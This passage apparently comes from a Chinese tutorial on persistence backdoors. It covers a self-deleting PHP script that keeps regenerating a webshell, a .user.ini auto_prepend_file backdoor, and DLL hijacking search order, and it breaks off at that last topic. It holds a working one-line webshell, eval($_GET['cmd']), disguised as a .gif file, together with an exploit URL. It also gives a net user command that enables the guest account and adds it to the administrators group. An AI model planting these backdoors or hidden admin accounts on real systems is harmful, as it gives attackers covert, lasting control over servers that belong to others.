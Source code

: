 `ignore_user_abort()` 函数设置与客户机断开是否会终止脚本的执行。这里设置为true则忽略与用户的断开，即使与客户机断开脚本仍会执行。

`set_time_limit()` 函数设置脚本最大执行时间。这里设置为0，即没有时间方面的限制。

`unlink(__FILE__)` 删除文件本身，以起到隐蔽自身的作用。

此脚本会每5秒不断的向服务器生成一个“inc_data_config.php”的一句话木马。

清除脚本只需要重启http服务。



## 0x6 .user.ini文件构成的PHP后门

指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：

```bash
auto_prepend_file=01.gif
```

我们可以借助.user.ini轻松让所有php文件都“自动”包含某个文件，而这个文件可以是一个正常php文件，也可以是一个包含一句话的webshell

**01.gif** 

```php
<?php @eval($_GET['cmd']); ?>
```

直接访问下面链接即可利用：

```url
http://xxx.baidu.com/index.php?cmd=phpinfo();
```



## 0x7 使用已经禁用的guest账户进行登录

控制面板\所有控制面板项\用户帐户\管理帐户\启用来宾帐户

```bash
net user guest woaijiushi && net localgroup administrators guest /add
```



## 0x8 DLL 劫持

在加载DLL过程中，系统都是先在程序目录加载DLL，如果没有找到就按照规定的顺序去搜索，但如果DLL的路径没有在system32中，攻击者就有可能伪造一个dll被程序加载。

系统在使用DLL搜索顺序取决于世否启用**安全的DLL搜索模式** 。

*PS：WindowsXP默认情况下禁用安全DLL搜索模式。之后默认启用安全DLL搜索模式*

若要使用此功能，需创建 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session
Manager\SafeDllSearchMode `注册表值，0为禁止，1为启用。

**SafeDLLSearchMode启用后，搜索顺序如下：**

```bash
1. 从其中加载应用程序的目录、
2. 系统目录。使用GetSystemDirectory函数获取此目录的路径。
3. 16位系统目录。没有获取此目录的路径的函数，但会搜索它。
4. Windows目录。 使用GetWindowsDirectory函数获取此目录。
5. 当前目录。
6. PATH环境变量中列出的目录。
```
